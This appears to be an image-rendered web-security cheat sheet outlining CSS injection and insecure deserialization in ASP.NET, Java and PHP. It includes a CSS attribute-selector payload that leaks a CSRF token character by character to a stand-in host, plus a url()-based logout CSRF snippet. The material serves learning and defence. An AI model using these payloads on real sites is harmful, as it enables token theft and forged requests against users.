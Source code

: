 #### CSS Injection
- expression()
- import URL (CSRF)
  - Referer
  - url(...)

    ```
    body {
      background:
      url(http://example.com/logout);
    }
    ```

  - ...
- CSS Selector
  > Read part of HTML source, like CSRF Token

  ```css
  input[name=csrf][value^="1"]{background:url(http://ip/1)}   X
  input[name=csrf][value^="2"]{background:url(http://ip/2)}   O
  input[name=csrf][value^="2a"]{background:url(http://ip/2a)} X
  input[name=csrf][value^="2e"]{background:url(http://ip/2e)} O
  ...
  <input type="text" name="csrf" avlue="2e58ca...">
  ```

#### Deserialization
- ASP.NET Deserialization
  > `ViewState`, `Session`, ... are highly possible to have serialize data
  > encrypted by `machine key` stored in `web.config`.

  - [ysoserial.net](https://github.com/pwntester/ysoserial.net)
- Java
  - Gadgets
    - CommonsCollections
  - Magic Method
    - toString
    - readObject

      ```java
      public class Cat implements Serializable {
        ...
        private vlid readObject(ObjectInputStream in) {
          throws IOException, ClassNotFoundException {
            ...
          }
        }
      }
      ```

    - finalize
    - ...
  - [ysoserial](https://github.com/frohoff/ysoserial)
- PHP
  > Feature removed since PHP 8.0
  - Phar Format
    - stub
    - manifest (... serialized file meta-data, stored in serialize() format ...)
    - contents
    - signature (optional)
  - Magic Method
    - \_\_destruct()
    - \_\_wakeup()
    - \_\_call()
    - \_\_toString()
  - Phar Deserialization`phar://`